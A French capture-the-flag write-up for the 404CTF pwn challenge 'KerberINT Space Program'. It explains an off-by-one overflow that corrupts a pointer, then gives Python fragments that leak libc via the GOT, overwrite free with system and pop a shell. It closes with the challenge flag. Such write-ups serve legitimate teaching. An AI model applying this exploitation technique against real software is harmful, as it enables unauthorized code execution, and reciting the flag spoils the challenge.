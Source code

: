 # Writeup pour `KerberINT Space Program`

Auteur : *Pwnsard*  
Difficulté : *Facile*

### Notions principales :
- Off by one
- Global offset table

### Protections :

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   RW-RUNPATH   55 Symbols	  No	0		1		data/chall
```

### Principe

On a une structure stockée sur la bss, que l'on peut éditer autant de fois qu'on le désire :

```C
struct rocket {
    long price;
    char name[0x10];
    char* description;
};
```

La faille réside dans la fonction take_input (horrible je vous l'accorde) :
```C
void take_input(char *buf, size_t len) {
    char c = -1;
    int i = 0;
    while (i <= len && c != '\n') {
        c = getchar();
        buf[i] = c;
        i++;
    }
    buf[i] = 0;
}
```
En effet, on a un off-by-one, c'est à dire que l'on peut écrire un caractère de plus que la taille du buffer. Sachant que `edit_rocket_name` est faite pour écrire autant que la longueur du nom actuellement stocké, on peut dépasser d'un caractère à chaque renommage de la fusée, et ainsi aller réécrire le pointeur `description`, ce qui nous donne un arbitrary read/write.  
Dans ma solution, on peut réécrire le pointeur comme cela : 

```python
def store_value_in_description(value: bytes):
    for i in range(9):
        edit_rocket_name(b"A" * 0x10 + b"B" * i)

    edit_rocket_name(b"A" * 0x10 + value)
```
On peut donc leak la libc au travers de la got (le PIE est désactivé). Puis réécrire la got afin de remplacer l'adresse de `free` par celle de `system`. 

```python
# Overwrite got entry of the free function
store_value_in_description(p64(0x405000))

# We have to reproduce the got entirely, else our new line corrupts parts of the got which causes a crash
got_payload = p64(libc.symbols['system'])
got_payload += p64(libc.symbols['puts'])
got_payload += p64(libc.symbols['strlen'])
got_payload += p64(libc.symbols['printf'])
got_payload += p64(libc.symbols['getchar'])
got_payload += p64(libc.symbols['malloc'])
got_payload += p64(libc.symbols['setvbuf'])
got_payload += p64(libc.symbols['__isoc99_scanf'])
edit_rocket_description(got_payload)
```

En éditant la description pour qu'elle contienne un pointeur vers /bin/sh (qui pointe quelque part dans la libc), il ne reste plus qu'à quitter le programme pour obtenir un shell !

```python
# Description now points to /bin/sh
bin_sh_addr = libc.address + 0x1b1ece
store_value_in_description(p64(bin_sh_addr))

# When freeing the /bin/sh rocket we now get a shell !
free_rocket()
```

### Script de résolution :

Voir `solve.py`

### Flag : 

`404CTF{CEnTR3_5P4t!aL_70U1oU$3_ma74B!4u}`
